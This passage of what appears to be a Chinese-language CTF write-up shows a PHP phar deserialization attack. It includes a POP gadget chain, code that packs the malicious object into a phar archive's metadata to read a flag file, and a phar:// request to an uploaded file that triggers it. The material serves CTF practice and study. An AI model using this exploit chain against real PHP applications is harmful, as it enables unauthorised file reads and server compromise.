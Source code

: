 ```prism
    }

}


//CNSS::__construct($name)->CNSS::__destruct()->Show::->__toString()->CN55::__invoke()->CN55::_get($key)->CN55::file_get($value)

$Jay17=new Show('j47');
$a=new CNSS($Jay17);
$Jay17->haha['hehe']=new CN55();
$Jay17->haha['hehe']->params['key']='file:///var/www/html/f1ag.php';


//删除原来的phar包，防止重复
//@unlink("xxx.phar");
//后缀名必须为phar
$phar = new Phar("xxx.phar");
$phar->startBuffering();
//设置stub
$phar->setStub("<?php __HALT_COMPILER(); ?>");

//将自定义的meta-data存入manifest
$phar->setMetadata($a);
//添加要压缩的文件,这个文件没有也没关系，走个流程
$phar->addFromString("test.txt", "test");
//签名自动计算
$phar->stopBuffering();
echo "done.";


```

![](https://csdnimg.cn/release/blogv2/dist/pc/img/newCodeMoreBlack.png)

修改后缀后上传



![image-20240904160746420](https://img-blog.csdnimg.cn/img_convert/a90727cb7861ee4ffda8ad6a0266959b.png)



![image-20240904160805540](https://img-blog.csdnimg.cn/img_convert/e5b2c1e198775d7e6d38c79d70e74615.png)

翻翻源码看一下上传文件的存储位置。phar协议解析就行。

```has-numbering
/file.php?file=phar:///var/www/html/upload/a976285aa6d6096e9edd17db289a73a9.jpg

```



![image-20240904160849459](https://img-blog.csdnimg.cn/img_convert/df53a8209dd4cf0a956a2c116b5e7f21.png)
